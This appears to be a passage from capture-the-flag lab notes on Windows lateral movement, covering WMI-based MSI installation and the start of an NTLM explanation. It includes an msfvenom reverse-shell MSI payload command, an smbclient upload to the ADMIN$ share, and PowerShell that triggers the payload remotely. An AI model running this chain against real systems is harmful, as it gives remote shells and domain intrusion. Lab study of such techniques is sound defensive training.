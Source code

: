 `Unregister-ScheduledTask -CimSession $Session -TaskName "<task name>"` - Delete the scheduled task.

##### Installing MSI packages through WMI

- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

MSI is a file format used for installers, we can attempt to use WMI to install a MSI package copied to the target system, we can attempt to install it by invoking the Win32_Product class through WMI:

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

`wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi` - This will achieve the same result with CMD in legacy systems.

##### Let's Get to Work

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip address> LPORT=<port> -f msi > <file name>` - Create an MSI payload.

`smbclient -c 'put myinstaller.msi' -U <username> -W ZA '//thmiis.za.tryhackme.com/admin$/' <password>` - Copy the payload to the target machine, copying to the ADMIN$ share will make it available at C:\Windows\ on the server.

Now start a handler.

Start a WMI session:

```Powershell
$username = '<username>';
$password = '<password>';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName <target> -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

`Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}` - Invoke the install method from the Win32_Product class to trigger the payload, now you should get a connection.

## Use of Alternate Authentication Material

##### NTLM Authentication

![[9434c96e1bc0519f8d851b44d85b6702.png]]

1. The client sends an Authentication Request to the server they want access to.
2. The servers sends back a random number as a challenge.
3. The client combines the password and other known data with the challenge and sends a response back.
4. The server forwards both the challenge and response to the DC.
5. The server recalculates a response with the challenge and authenticate the client if it matches his response.
6. the server forwards the authentication result to the client.
